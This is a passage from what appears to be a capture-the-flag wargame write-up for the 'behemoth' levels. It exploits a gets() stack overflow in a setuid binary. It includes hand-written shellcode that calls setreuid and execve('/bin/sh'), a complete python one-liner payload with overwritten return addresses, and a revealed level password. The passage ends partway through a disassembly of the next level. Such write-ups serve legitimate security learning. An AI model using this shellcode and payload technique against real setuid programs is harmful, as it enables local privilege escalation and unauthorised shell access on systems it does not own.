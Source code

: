 ```assembly
```
After made a copy of suid program in tmp directory, I executed it several time in order to check if somethings can be overflowed.

Gets function it's vulnerable and after some attempt it was very simple to discover that I can overwrite RA with value I want.

So the idea was to put shellcode that executes:
* `setreuid(behemoth2uid)` 
* `execve(/bin/sh)`

Some nops help us to write the correct value in the stack frame.

```assembly
#behemoth2 = 13002
.text
.global _start
_start:
    xorl    %ebx,%ebx
    xorl    %ecx,%ecx
    xorl    %eax,%eax
    xorl    %edi,%edi
    movw    $0x32CA,%bx
    movw    $0x32CA,%cx
    movb    $0x46,%al
    int     $0x80
    xorl    %edx,%edx
    xorl    %ebx,%ebx
    xorl    %ecx,%ecx
    xorl    %eax,%eax
    movb    $0xB,%al
    movl    $0xffffffcc,%ebx
    int     $0x80

```
```bash
$ (python -c 'print "\x41\xd6\xff\xff"*5+"\x31\xdb\x31\xc9\x31\xc0\x31\xff\x66\xbb\xca\x32\x66\xb9\xca\x32\xb0\x46\xcd\x80\x31\xd2\x31\xdb\x31\xc9\x31\xc0\xb0\x0b\xbb\x79\xd6\xff\xff\xcd\x80"+"aa"+"\x39\xd6\xff\xff"*4+"////////////bin/sh"';cat) | ./behemoth1
```

I inserted cat instruction maintain the pipe open

##### pass=eimahquuof

------------------------------------------------------------------------------------------------------------------------------------

## level2->level3

```assembly
000006f0 <main>:
 6f0:	8d 4c 24 04          	lea    0x4(%esp),%ecx
 6f4:	83 e4 f0             	and    $0xfffffff0,%esp
 6f7:	ff 71 fc             	pushl  -0x4(%ecx)
 6fa:	55                   	push   %ebp
 6fb:	89 e5                	mov    %esp,%ebp
 6fd:	56                   	push   %esi
 6fe:	53                   	push   %ebx
 6ff:	51                   	push   %ecx
 700:	81 ec 8c 00 00 00    	sub    $0x8c,%esp
 706:	e8 b5 fe ff ff       	call   5c0 <__x86.get_pc_thunk.bx>
 70b:	81 c3 f5 18 00 00    	add    $0x18f5,%ebx
 711:	e8 fa fd ff ff       	call   510 <getpid@plt>
 716:	89 45 e4             	mov    %eax,-0x1c(%ebp)
 719:	8d 45 cc             	lea    -0x34(%ebp),%eax
 71c:	83 c0 06             	add    $0x6,%eax
```